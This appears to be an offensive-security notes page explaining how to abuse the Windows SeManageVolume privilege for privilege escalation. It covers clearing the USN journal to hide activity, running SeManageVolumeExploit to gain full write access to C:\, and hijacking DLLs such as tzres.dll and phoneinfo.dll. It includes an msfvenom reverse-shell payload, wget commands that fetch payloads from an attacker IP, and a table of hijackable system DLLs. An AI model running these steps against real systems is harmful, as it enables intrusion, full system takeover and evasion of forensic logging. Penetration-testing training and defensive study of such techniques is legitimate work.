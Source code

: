 ```yaml
---
layout:
  width: default
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
  metadata:
    visible: true
---
```


# SeManageVolume

The `SeManageVolume` privilege (aka Manage Volume) allows **direct control over NTFS volumes**, including the ability to clear the Update Sequence Number (USN) change journal, which logs every file and directory modification on a volume for forensic and backup purposes. Clearing the journal erases this history, making post-exploitation activity harder to detect.&#x20;

Beyond this, the privilege can be actively exploited to gain **write access to the entire volume**. Tools such as [SeManageVolumeExploit](https://github.com/CsEnox/SeManageVolumeExploit) can leverage the privilege to modify permissions across `C:\`, effectively granting full control over all files and directories.

```powershell
# Check permissions
> whoami /priv
​
Privilege Name                Description                      State
============================= ================================ ========
SeManageVolumePrivilege       Perform volume maintenance tasks Disabled

# Run the exploit
> .\SeManageVolumeExploit.exe

# Check volume permissions
> icacls c:\
c:\ NT AUTHORITY\SYSTEM:(OI)(CI)(F)
    BUILTIN\Users:(OI)(CI)(F) # Full Access
```

A `SYSTEM` level shell can be gain via DLL hijacking. For example, the `tzres.dll` can be used to perform a DLL hijack on `systeminfo`.&#x20;

{% code overflow="wrap" %}
```bash
# Create a malicious DLL
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.241 LPORT=80 -f dll -o tzres.dll
```
{% endcode %}

Dropping the malicious DLL to `C:\Windows\system32\wbem\tzres.dll` and running `systeminfo` will load the DLL, executing code as `NT AUTHORITY\NETWORK SERVICE`.

{% code overflow="wrap" %}
```powershell
> wget 192.168.45.241:443/tzres.dll -O c:\windows\system32\wbem\tzres.dll
> systeminfo
```
{% endcode %}

The `phoneinfo.dll` can be also leveraged as shown [here](https://github.com/sailay1996/WerTrigger%E2%80%8B):

```powershell
> wget 192.168.45.241:443/phoneinfo.dll -O c:\windows\system32\phoneinfo.dll
> wget 192.168.45.241:443/Report.wer -O Report.wer
> wget 192.168.45.241:443/WerTrigger.exe -O WerTrigger.exe
> wget 192.168.45.241:443/revshell.exe -O revshell.exe
> .\WerTrigger.exe
c:\users\public\revshell.exe
```

Other high-value DLL hijack targets for common Windows binaries:

<table><thead><tr><th width="145">Binary</th><th width="294">DLL(s) to Hijack</th><th>Drop Location</th></tr></thead><tbody><tr><td><code>systeminfo.exe</code></td><td><code>tzres.dll</code>, <code>wbemcomn.dll</code></td><td><code>C:\Windows\System32\wbem\</code></td></tr><tr><td><code>taskmgr.exe</code></td><td><code>UIAutomationCore.dll</code></td><td><code>C:\Windows\System32\</code></td></tr><tr><td><code>eventvwr.exe</code></td><td><code>mmc.dll</code>, <code>wevtapi.dll</code></td><td><code>C:\Windows\System32\</code></td></tr><tr><td><code>notepad.exe</code></td><td><code>dbghelp.dll</code>, <code>msvcrt.dll</code></td><td><code>C:\Windows\System32\</code></td></tr><tr><td><code>perfmon.exe</code></td><td><code>perfts.dll</code>, <code>perfc009.dll</code></td><td><code>C:\Windows\System32\</code></td></tr><tr><td><code>wmic.exe</code></td><td><code>fastprox.dll</code>, <code>wbemcomn.dll</code>, <code>wmiprvsd.dll</code></td><td><code>C:\Windows\System32\wbem\</code></td></tr><tr><td><code>winmgmt.exe</code></td><td><code>fastprox.dll</code>, <code>wbemcomn.dll</code></td><td><code>C:\Windows\System32\wbem\</code></td></tr><tr><td><code>mstsc.exe</code></td><td><code>rdpencom.dll</code>, <code>tsres.dll</code></td><td><code>C:\Windows\System32\</code></td></tr></tbody></table>

